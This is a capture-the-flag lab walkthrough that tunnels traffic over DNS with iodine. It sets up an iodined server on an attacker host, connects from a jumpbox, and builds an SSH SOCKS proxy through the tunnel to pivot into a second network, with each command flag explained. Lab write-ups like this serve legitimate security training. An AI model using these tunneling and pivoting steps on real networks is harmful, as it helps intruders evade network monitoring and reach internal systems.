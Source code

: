 ![DNS tunneling process](https://assets.website-files.com/5ff66329429d880392f6cba2/644cd0fd955aee02ec7135fb_How%20Does%20DNS%20Tunneling%20Works.jpg)

For this task, we will be using `jump.thm.com` to log into `victim2.thm.com` (located in Network 1), to then pivot to `web.thm.com` (located in Network 2). We will use [**iodine**](https://github.com/yarrick/iodine) for creating our DNS tunneling communications. To establish DNS tunneling we need to:
1. Use the preconfigured nameserver, `att.tunnel.com`, which points to the `attacker.thm.com`, `172.20.0.200`.
2. Run the **iodined server** from `attacker.thm.com`.
3. Run the **iodine application** from `jump.thm.com` to establish the connection.
4. SSH to the machine on the created network interface to create a proxy over DNS.
5. Once an SSH connection is established, we can use the local IP address and port as a proxy in FireFox. 

>**Iodine** is the client application, while **iodined** is the server!

1. Let's start by **running the iodined server**:

    ```shell
    # intiate the iodined server from Attacker
    thm@attacker:~$ sudo iodined -f -c -P thmpass 10.1.1.1/24 att.tunnel.com
    ```

    Breaking down the command:
    1. `iodined` The command-line utility used for setting up a DNS tunnel.
    2. `-f` Foregrounds the command.
    3. `-c` Disables checking the client IP address on all incoming requests.
    4. `-P thmpass` Sets a pre-shared password for authentication and encryption.
    5. `10.1.1.1/24` The IP address and subnet mask in CIDR notation, specifying the range of IP addresses that can be tunneled through DNS. In this case, it indicates the IP range from `10.1.1.1` to `10.1.1.255`.
    6. `att.tunnel.com` The DNS server where the DNS tunnel will be established.

2. Next, we need to connect to the server-side application from Jumpbox:

    ```shell
    # connect to iodine app from Jumpbox
    thm@jump-box:~$ sudo iodine -P thmpass att.tunnel.com
    ```

    ![dns-iodined-server-launch](dns-iodined-server-launch.png)

3. Once the connection is established, we open a new terminal and SSH to `10.1.1.2`:

    ```shell
    thm@jump-box:~$ ssh thm@10.1.1.2 -4 -f -N -D 1080
    ```
    We used a lot of flags in this `ssh` command, so let's see what each is doing:
    1. `-4` Forces the SSH client to use IPv4 communication. It is used to ensure that the SSH connection uses IPv4 instead of the default, which might use IPv6 if available.
    2. `-f` Tells SSH to run in the background after authentication and connection establishment. It's often used when setting up SSH tunnels of forwarding, as it allows us to continue using the terminal for other tasks.
    3. `-N` Tells SSH to not execute any remote commands. It's commonly used when the primary purpose of an SSH connection is to set up a tunnel or forwarding without running a remote shell session or command.
    4. `-D 1080` Sets up a dynamic port forwarding tunnel. It instructs SSH to listen on port `1080` on the local machine and to act as a **SOCKS** proxy server. The local machine cna then use this proxy to route its traffic through the SSH connection to the remote server, in this case `10.1.1.2`. This is useful for securely tunneling internet traffic or accessing resources on the remote server's network.
